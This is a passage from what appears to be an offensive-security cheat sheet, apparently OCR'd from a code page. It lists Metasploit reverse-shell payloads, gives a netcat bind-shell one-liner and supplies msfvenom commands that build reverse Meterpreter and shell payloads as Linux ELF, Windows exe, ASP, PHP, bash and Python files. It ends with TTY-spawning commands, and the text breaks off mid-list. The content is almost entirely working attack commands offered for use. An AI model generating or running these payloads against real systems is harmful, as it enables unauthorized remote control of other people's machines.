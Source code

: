    cmd/unix/reverse                                    Creates an interactive shell through two inbound connections
   cmd/unix/reverse_awk                                Creates an interactive shell via GNU AWK
   cmd/unix/reverse_python                             Connect back and create a command shell via Python
   cmd/unix/reverse_python_ssl                         Creates an interactive shell via python, uses SSL, encodes with base64 by design.
   cmd/unix/reverse_r                                  Connect back and create a command shell via R
   cmd/unix/reverse_ruby                               Connect back and create a command shell via Ruby
**snip**
```
- Now, try to check the payload
```
                   msfvenom -p cmd/unix/bind_netcat

                          Payload size: 105 bytes

                          mkfifo /tmp/cdniov; (nc -l -p 4444 ||nc -l 4444)0</tmp/cdniov | /bin/sh >/tmp/cdniov 2>&1; rm /tmp/cdniov
                   ```


### MSF Linux Reverse Meterpreter Binary
                - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
### MSF Reverse Shell (C Shellcode)
                - msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
### MSF Reverse Shell Python Script
                - msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
### MSF Reverse ASP Shell
                - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
### MSF Reverse Bash Shell
                - msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
### MSF Reverse PHP Shell
                - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php add <?php at the beginning
                - perl -i~ -0777pe's/^/<?php \n/' shell.php
### MSF Reverse Win Bin
                - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
            -
###references/articles:
            - Reverse shells one-liners
http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
# Spawning a TTY Shell
        - About:
           Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. Spawning a TTY Shell and Post-Exploitation Without A TTY has provided multiple ways to get a tty shell
### Python
               python -c 'import pty; pty.spawn("/bin/sh")'
            - or
               ls
            - or